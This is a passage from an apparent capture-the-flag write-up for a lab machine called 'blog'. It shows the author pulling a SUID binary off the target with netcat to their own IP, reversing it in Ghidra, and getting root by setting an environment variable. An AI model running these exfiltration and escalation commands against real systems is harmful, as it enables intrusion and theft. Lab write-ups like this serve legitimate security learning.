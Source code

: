 And we have a meterpreter shell !

## Privilege escalation

Fist, I spawned a basic shell using "shell", and then I stabilized it.

It's time to elevate our privileges, first, I checked the crontab, if www-data has sudo rights, I searched for ssh private keys... but I did not find anything like that. But I found an 
unknown SUID binary named "checker" located in /usr/sbin. Let's see what happen if we try to run it :  
```
www-data@blog:/$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
www-data@blog:/$ 
```

It tells us we are not admin. But the question is : How this binary check if we are admin or not ?  
So I downloaded this binary on my local machine using netcat :  

On my local machine :  
```
nc -l -p 1234 > checker
```

On the target machine :  
```
nc -w 3 10.14.31.20 1234 < /usr/sbin/checker
```

Then, I opened this binary with [Ghidra](https://ghidra-sre.org/) :  
![](https://i.imgur.com/xKJgxQk.jpg)  

The program checks if the environment variable "admin" is equal to 0, if it is, the program spawns a root shell. So we just have to use `export admin=0` on the target machine and try to 
execute the program again :  
```
www-data@blog:/$ export admin=0
export admin=0
www-data@blog:/$ /usr/sbin/checker 
/usr/sbin/checker
root@blog:/#
```

We are root ! Time to get the flags !  

The user flag is located in an uncommon directory, "/media/usb" :  
```
root@blog:/# cd /media/usb
cd /media/usb
root@blog:/media/usb# ls
ls
user.txt
root@blog:/media/usb# cat user.txt
cat user.txt
****************************
```
